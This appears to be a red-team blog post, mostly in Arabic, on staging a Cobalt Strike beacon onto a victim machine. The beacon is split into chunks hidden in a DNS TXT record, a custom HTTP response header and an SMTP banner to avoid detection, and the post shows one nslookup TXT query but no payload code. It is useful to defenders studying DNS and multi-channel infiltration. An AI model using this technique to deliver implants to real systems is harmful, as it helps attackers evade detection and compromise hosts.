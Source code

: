 ```yaml
---
title: "Infiltrationar"
date: 2022-01-03T16:57:00-05:00
---
```



## Introduction

<DIV dir="rtl" align="right">
ألسلام عليكم
</DIV>

<DIV dir="rtl" align="right">
سمعنا كثير عن طرق تستخدم لنقل الملفات لجهاز الضحية ومعظم هذه الطرق صارة منتشرة الا درجة انها صارت سهلة الأكتشاف. في Confidential اتخذنا خطوة جديدة في نقل الملفات مما خلاها معقدة ليتم اكتشافها. رح تشوفون اليوم كيف قدرنا ننقل CS beacon عن طريق اكثر من medium. 
</DIV>

## Brief

<DIV dir="rtl" align="right">
في البداية قسمنا ال CS beacon الى عدة قطع والي بعدين رح يتم نقلها عن طريق اكثر من medium (DNS TXT record, HTTP response header, and SMTP server's banner) وكل هذا يصير عن طريق برنامج خاص بالفريق وتقدرون تشوفون ال demo في النهاية.
</DIV>

## DNS txt record:

<DIV dir="rtl" align="right">
تعريف ال TXT record من Google:
</DIV>

TXT records are a type of Domain Name System (DNS) record that contains text information.

<DIV dir="rtl" align="right">
بأختصار نقدر نضيف وحدة من القطع المقسمة الخاصة ب CS beacon في TXT dns record في هذه الحالة اذا حاولنا نطلب هذه ال record رح ترجع لنا واحد من القطع
</DIV>

```
nslookup -querytype=txt confidential.example.com
```

![](nslookup output)

## HTTP Response Header:

<DIV dir="rtl" align="right">
عدلنا على اعدادات ال web server وظفنا header جديد اسمه Confidential يكون موجود في ال response ويحتوي على القطعة الثانية من ال CS Beacon
</DIV>

![](HTTP Response Header output)


## SMTP Server's Banner:

<DIV dir="rtl" align="right">
عدلنا على اعدادات ال SMTP Server وظفنا اخر قطعة في ال banner
</DIV>

Pic 3 ( SMTP Server's Banner output )


## Demo

Our team developed a tool that automates the process with more features. Here's a demo of the executable agent that we fired up inside the compromised windows machine.

## Refrences:

- https://support.google.com/a/answer/2716800?hl=en
- https://github.com/PaloAltoNetworks/research-notes/blob/master/notes/DNS-based%20data%20exfiltration%20and%20infiltration%20technology%20and%20detection.pdf
